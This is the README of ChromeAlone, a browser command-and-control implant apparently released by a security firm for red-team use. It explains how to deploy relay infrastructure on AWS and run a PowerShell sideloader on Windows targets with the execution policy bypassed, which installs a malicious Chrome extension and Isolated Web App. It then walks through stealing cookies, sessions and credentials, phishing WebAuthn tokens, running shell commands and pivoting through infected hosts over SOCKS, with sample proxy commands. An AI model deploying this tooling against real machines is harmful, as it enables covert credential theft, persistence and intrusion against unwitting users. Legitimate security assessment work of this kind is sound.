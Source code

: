 # ChromeAlone - A Browser C2 Framework

![Architecture Diagram](BATTLEPLAN.png)

# What does this get me?
ChromeAlone is a browser implant that can be used in place of conventional implants like Cobalt Strike or Meterpreter. This repo provides a simple build process that will generate a management console, deploy infrastructure, and create a powershell sideloader script to run on targets. 

After installation, each ChromeAlone implant will provide mechanisms for:

* Providing a SOCKS TCP Proxy on the host
* Browser session stealing and credential capture
* Launching executables on the host from Chrome
* Phishing for WebAuthn requests for physical security tokens like YubiKeys or Titan Security Keys.
* An EDR resistant form of persistence on host that is implemented entirely with Chromium's built-in features.

# Build Instructions

First build the docker container: `docker build -t chromealone .`

## Deployment Instructions

There are currently two supported deployment modes. Note that in either case, you should be running `docker` from the base directory of the ChromeAlone git repository.

### Deployment from scratch via AWS

For this you'll need to have an AWS account configured with your credentials stored in `~/.aws/credentials`. Make sure your account has full EC2 write permissions along with Route53 permissions. Additionally it's assumed that your Route53 has been configured with at least 1 hosting zone containing a registered domain. If these conditions are met, then you can run this command.

```
docker run --rm -v $(pwd):/project -v ~/.aws:/root/.aws chromealone --domain=sendmea.click --appname=UpdateService --region=us-west-2
```

The `domain` value should match a domain under the control of your Route53 setup. `appname` can be whatever value you want, and will be used for naming several registry keys and folders on disk when deploying. It is recommended to use a fairly benign name like `UpdateService` or something equally innocuous.
Note that `region` is optional, and will default to `us-east-2` if not specified.

This will deploy the BATTLEPLAN relay server to AWS and generate the following artifacts:

`output/client` - The control webapp to manage your ChromeAlone installs.

`output/sideloader.ps1` - The installation script to run on targets to infect their local browser instance. NOTE: There will also be an `iwa-sideloader.ps1` file for loading ONLY the Isolated Web App, and 
`extension-sideloader.ps1` for loading ONLY the browser extension.

`output/extension` - The generated malicious browser extension.

`output/iwa` - The generated malicious Isolated Web App signed webapp bundle file.

`output/relay-deployment` - Terraform artifacts from your AWS deployment including an SSH key for directly accessing the host.

### Generate Deployment scripts from an existing server deployment

If you've already deployed an instance, `output/relay-deployment/terraform.tfvars` will contain all the information necessary to generate new sideloader scripts + malicious extensions. You can point the ChromeAlone docker file at the `tfvars` file and it will skip the deployment step while maintaining the appropriate metadata to handle connections.

Run the build script `docker run --rm -v $(pwd):/project -v ~/.aws:/root/.aws chromealone --tfvars=/project/path/to/terraform.tfvars --appname=UpdateService` and it will generate a new malicious sideloader for your deployment.

## Installing on Hosts

Take `sideloader.ps1` and execute it on your target Windows 10 or Windows 11 machine by running `powershell.exe ExecutionPolicy Bypass -File .\path\to\sideloader.ps1`. Note that you can run with additional flags if you would like to install a NativeMessaging host (required for shelling out) or force chrome to restart (necessary if you want your extension to run immediately after running this script versus waiting for the next time the user opens Chrome). An example invocation with both of these flags is `powershell.exe -ExecutionPolicy Bypass .\sideloader.ps1 -InstallNativeMessagingHost $true -ForceRestart $true`. You can also modify the defaults at the top of the script from `false` to `true` if you wish these flags to automatically be used.

A complete script execution will take roughly 20-30 seconds.

# Operator Instructions

Once ChromeAlone is loaded, you can view any connected hosts by opening `output/client/index.html`. This webapp will be pre-configured to connect back to your deployed BATTLEPLAN relay instance. Note that by default, the relay is firewalled to only allow incoming control access on ports 1080-1181 from the IP that deployed the server. If you wish to modify this, you'll need to update the EC2 instance's network settings to include any additional machines.

Most commands can be run from the WebUI including:

* Dumping history + cookies (via the `Quick Commands` section, which requires selecting a target agent in the `Execute Command` section)
* Capturing Credentials (these will appear via the `Captured Data` tab)
* Forcing WebAuthn requests (via the `Execute Command` section)
* File System reads (via the `File Browser` tab)
* Executing Shell commands (via the `Interactive Shell` tab)

The primary exception to this is SOCKS proxying. Each infected host is assigned a unique SOCKS port for the server that can be seen under the `Agent Information` section, where each agent has a `Port` field. The assigned port, when combined with the `admin` credentials stored in `output/client/config.js` can be used to configure a host specific SOCKS proxy.

For example, say we have an agent where the port is 1081, our domain is `chrome.alone`, our username `admin` (this is always the case), and our password is `thisisnotarealpassword`. Here are some example usages:

```
proxychains -q socks5 admin:thisisnotarealpassword@chrome.alone:1081 curl http://ifconfig.me
xfreerdp /cert:ignore /v:<target RDP host> /u:<target RDP username> /proxy:socks5://admin:thisisnotarealpassword@chrome.alone:1081
curl -x socks5h://chrome.alone:1081 -u "admin:thisisnotarealpassword" http://ifconfig.me
```

# What's in this Repository?

The ChromeAlone repository is broken down into components, many of which could be used individually as part of an assessment - but together represent the entire Chromium browser implant toolchain.

* `BATTLEPLAN` - This is the management server component of the toolchain. It contains terraform scripts for deploying to an AWS environment as well as an HTML client for interacting with the server post deployment.
* `BLOWTORCH` - This is a malicious Isolated Web Application which uses `Direct Socket` permissions to implement a SOCKS TCP proxy and websocket server to enable communications between other chrome components. It also acts as the messaging bridge back to the `BATTLEPLAN` relay server.
* `DOORKNOB` - This is a series of scripts used for generating powershell sideloaders for Isolated Web Apps and Chrome Extensions. The script in `build.sh` provides an example of how to create a single Powershell installer script that combines both of theses individual sideloaders into one.
* `HOTWHEELS` - This is a malicious Chrome extension that implements all of its capabilities in Web Assembly. It provides the vast majority of ChromeAlone's feature sets for credential capture, session hijacking, shelling out, and reading the file system.
* `PAINTBUCKET` - A series of content scripts that enable phishing for WebAuthn requests by hiding additional WebAuthn requests within iFrames in inactive tabs whenever a normal WebAuthn request is made.

# Who made this?

This tool has been written by [Mike Weber](https://www.linkedin.com/in/michael-weber-6a466517/) of Praetorian Security.

# License

ChromeAlone is licensed under the Apache License, Version 2.0.

```
Copyright 2025 Praetorian Security, Inc

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

    http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.
```
